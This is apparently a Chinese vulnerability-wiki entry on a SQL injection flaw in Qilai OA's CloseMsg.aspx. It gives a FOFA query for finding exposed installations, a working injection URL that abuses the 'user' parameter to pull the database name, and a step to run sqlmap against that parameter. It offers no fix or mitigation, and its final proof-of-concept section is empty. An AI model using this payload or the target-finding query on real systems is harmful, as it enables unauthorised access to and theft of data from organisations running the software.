 # 启莱OA CloseMsg.aspx SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](D:\知识星球\image\ql-1-1621166871878.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在SQL注入的文件为 CloseMsg.aspx 

```
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```



![](http://wikioss.peiqi.tech/vuln/ql-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用SQLmap对参数 user 进行注入

![](http://wikioss.peiqi.tech/vuln/ql-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC


